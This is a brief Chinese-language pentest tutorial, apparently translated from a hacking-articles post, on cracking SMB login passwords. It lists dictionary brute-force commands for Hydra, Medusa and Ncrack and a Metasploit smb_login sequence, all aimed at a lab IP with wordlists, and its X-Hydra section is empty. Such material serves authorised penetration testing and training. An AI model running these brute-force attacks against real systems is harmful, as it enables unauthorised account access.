

## 破解SMB登录密码的5种方法

### Hydra [^2]

`hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

### X-Hydra [^1]

- 
- 
- 

### Medusa [^3]

`medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

### Ncrack

`ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

### Metasploit

```bash
use auxiliary/scanner/smb/smb_login
msf exploit (smb_login)>set rhosts 192.168.1.118
msf exploit (smb_login)>set user_file /root/Desktop/user.txt
msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
msf exploit (smb_login)>set stop_on_success true
msf exploit (smb_login)>exploit
```

[原文](https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/)

---

[^1]: 这是通过SMB端口应用字典攻击来破解系统的图形版本
[^2]: 这是一种命令方法，并且工作效率不高。这种方法适用于kali的终端。
[^3]: Medusa是一个快速，并行，模块化的登录暴力破坏者。目标是支持尽可能多的允许远程身份验证的服务